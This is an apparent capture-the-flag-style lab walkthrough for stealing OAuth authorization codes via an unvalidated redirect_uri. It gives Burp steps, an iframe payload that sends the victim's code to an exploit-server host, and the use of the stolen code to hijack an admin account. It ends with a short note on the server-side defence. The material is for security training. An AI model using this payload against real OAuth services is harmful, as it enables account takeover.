 - In this scenario, an attacker does not even need to know the client secret or the resulting access token. 
- As long as the victim has a valid session with the OAuth service, the client application will simply complete the code/token exchange on the attacker's behalf before logging them in to the victim's account.
- Note that using state or nonce protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.

# Solution
- While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
- Log out and then log back in again. 
- Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
- In Burp, study the OAuth flow in the proxy history and identify the most recent authorization request. 
- This should start with GET /auth?client_id=[...]. 
- Notice that when this request is sent, you are immediately redirected to the redirect_uri along with the authorization code in the query string. 
- Send this authorization request to Burp Repeater.
- In Burp Repeater, observe that you can submit any arbitrary value as the redirect_uri without encountering an error. 
- Notice that your input is used to generate the redirect in the response.
- Change the redirect_uri to point to the exploit server, then send the request and follow the redirect. 
- Go to the exploit server's access log and observe that there is a log entry containing an authorization code. 
- This confirms that you can leak authorization codes to an external domain.
Go back to the exploit server and create the following iframe at /exploit:
```
<iframe src="https://oauth-0a8a00dc04c6357e803be73002d3000a.oauth-server.net/auth?client_id=snikxy57aoxr96d1jpi7e&redirect_uri=https://exploit-0ad500b1042735c180dce87001e30024.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```
- Store the exploit and click "View exploit". 
- Check that your iframe loads and then check the exploit server's access log. 
- If everything is working correctly, you should see another request with a leaked code.
- Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
- Log out of the blog website and then use the stolen code to navigate to:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```
- The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. 
- Open the admin panel and delete carlos to solve the lab.

# Continuation
- More secure authorization servers will require a redirect_uri parameter to be sent when exchanging the code as well. 
- The server can then check whether this matches the one it received in the initial authorization request and reject the exchange if not. 
- As this happens in server-to-server requests via a secure back-channel, the attacker is not able to control this second redirect_uri parameter.
